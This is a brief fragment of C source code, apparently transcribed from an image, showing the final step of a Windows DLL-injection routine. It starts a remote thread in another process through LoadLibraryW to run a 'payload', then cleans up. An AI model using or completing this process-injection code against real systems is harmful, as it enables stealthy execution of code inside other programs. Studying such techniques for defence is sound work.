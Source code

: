 ```c
	printf("[i] Executing Payload ... ");
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");


_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return bSTATE;
}
```
